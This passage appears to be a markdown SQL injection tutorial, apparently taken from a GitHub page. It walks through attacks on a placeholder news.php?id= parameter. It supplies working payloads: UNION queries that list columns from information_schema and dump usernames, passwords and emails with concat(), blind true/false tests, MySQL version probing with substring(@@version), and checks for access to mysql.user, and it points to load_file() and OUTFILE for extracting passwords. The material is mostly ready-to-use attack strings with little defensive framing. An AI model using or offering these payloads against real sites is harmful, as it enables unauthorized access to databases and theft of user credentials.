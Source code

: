 Example:
~~~bash
http://server/news.php?id=5 union all select 1,column_name,3 from information_schema.columns where table_name='users'/*
Now we get displayed column name in table users. Note, this won’t work if the magic quotes is ON. Let’s say that we found columns user, pass and email, now to complete the query, we put them all together and for that we will use concat().
~~~

Example:
~~~bash
http://server/news.php?id=5 union all select 1, concat(user,0x3a,pass,0x3a,email) from users/*
From the above example we shall get the user:pass:email from table users.
~~~

> A normal query should be as per the following example

~~~bash
http://server/news.php?id=5 and 1=1 <-- this is always true
~~~

> Now in order to check if the website is subject to blind SQL injection just switch “1” by “2”
~~~bash
http://server/news.php?id=5 and 1=2 <-- this is false
~~~

### If your page is returned with some missing content such as text or images that simply mean the page is vulnerable to blind SQL injection.

1. Get the MySQL version

> To get the version of MySQL in a blind attack we use substring.
~~~bash
http://server/news.php?id=5 and substring(@@version,1,1)=4
The above query should return TRUE if the version of MySQL is “4”. Replace “4” by “5”, and if query return TRUE we can understand that the current MySQL version is “5”.
~~~
Example:
~~~bash
http://server/news.php?id=5 and substring(@@version,1,1)=5
~~~

## TEST IF SUBSELECT WORKS
> In some case the “select” function don’t work. In such case we can use “subselect” as an alternative.

Example:
~~~bash
http://server/news.php?id=5 and (select 1)=1
~~~
> If the page is loading properly then the “subselects” function is working. The next step shall to see if we can get an access to “mysql.user”.

Example:
~~~bash
http://server/news.php?id=5 and (select 1 from mysql.user limit 0,1)=1
~~~
> If the page is loading properly then it’s mean we do have access to “mysql.user”. According to this last query we can if we want using this access to extract for example some password usign load_file() function and OUTFILE.
